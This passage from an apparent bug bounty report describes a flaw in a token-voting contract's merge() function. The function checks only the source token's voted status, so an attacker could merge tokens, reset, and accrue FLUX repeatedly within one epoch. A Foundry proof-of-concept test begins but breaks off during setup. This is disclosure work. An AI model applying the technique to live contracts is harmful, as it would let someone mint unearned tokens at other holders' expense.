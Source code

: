 because merge() only require   ```   require(!voted[_from], "voting in progress for token");   ```

it doesn't require the merged "to" token to be not voted .. only the first token 

the attacker now could merge ID1 & ID2  to  ID3 

and use the reset function with the new total balance .. 
and accrue flux even if the same IDs tokens balance accrued flux previously in the same epoch!




## Impact Details

the suitable in-scope impact is **Unauthorized minting of NFTs**
because this will enable an attacker to gain infinitive FLUX by repeating this tricky scenario  

        
## Proof of concept
``` 

/*
       █▀█  ▀▄▀  █▀▄▀█ █ █▄░█ ▄▀█ ▀█▀ █▀█ 
       █▄█  █░█  █░▀░█ █ █░▀█ █▀█ ░█░ █▄█ 
*/


// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "forge-std/console.sol";
import "./BaseTest.sol";


contract MyTest is BaseTest { 


address public user = address(2);
uint256 internal constant ONE_WEEK = 1 weeks;
uint256 internal constant THREE_WEEKS = 3 weeks;
uint256 internal constant FIVE_WEEKS = 5 weeks;
uint256 internal constant MANYWEEKS = 52 weeks;

uint256 maxDuration = ((block.timestamp + MAXTIME) / ONE_WEEK) * ONE_WEEK;

 function setUp() public { 

      setupContracts(block.timestamp);

    }


  function _lockVeALCX(uint256 amount) internal returns (uint256) {

        deal(address(bpt), address(this), amount);
        IERC20(bpt).approve(address(veALCX), amount);
        return veALCX.createLock(amount, MAXTIME, false);

    } 

   function _setupgauge() internal {
        
        address alUsdGaugeAddress = voter.gauges(alUsdPoolAddress);

        address bribe1 = voter.bribes(alUsdGaugeAddress);

```